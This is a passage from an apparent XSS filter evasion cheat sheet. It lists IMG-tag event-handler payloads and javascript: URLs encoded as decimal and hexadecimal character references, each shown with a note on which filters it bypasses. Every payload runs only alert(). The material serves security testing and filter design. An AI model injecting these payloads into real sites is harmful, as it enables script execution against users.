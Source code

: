 		This will bypass most SRC domain filters. Inserting javascript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc. It will also allow any relevant event for the tag type to be substituted like onblur, onclick giving you an extensive amount of variations for many injections listed here. Submitted by David Cross .

		Edited by Abdullah Hussam.
		1
		<IMG SRC=# onmouseover="alert('xxs')">


		Default SRC tag by leaving it empty
		1
		<IMG SRC= onmouseover="alert('xxs')">


		Default SRC tag by leaving it out entirely
		1
		<IMG onmouseover="alert('xxs')">


		On error alert
		1
		<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>


		Decimal HTML character references

		all of the XSS examples that use a javascript: directive inside of an <IMG tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode). Use the XSS Calculator for more information:
		1
		<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
		2
		&#39;&#88;&#83;&#83;&#39;&#41;>


		Decimal HTML character references without trailing semicolons

		This is often effective in XSS that attempts to look for “&#XX;”, since most people don’t know about padding – up to 7 numeric characters total. This is also useful against people who decode against strings like $tmp_string =~ s/.*\&#(\d+);.*/$1/; which incorrectly assumes a semicolon is required to terminate a html encoded string (I’ve seen this in the wild):
			1
			<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
			2
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>


			Hexadecimal HTML character references without trailing semicolons

			This is also a viable XSS attack against the above string $tmp_string =~ s/.*\&#(\d+);.*/$1/; which assumes that there is a numeric character following the pound symbol – which is not true with hex HTML characters). Use the XSS calculator for more information:
			1
			<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
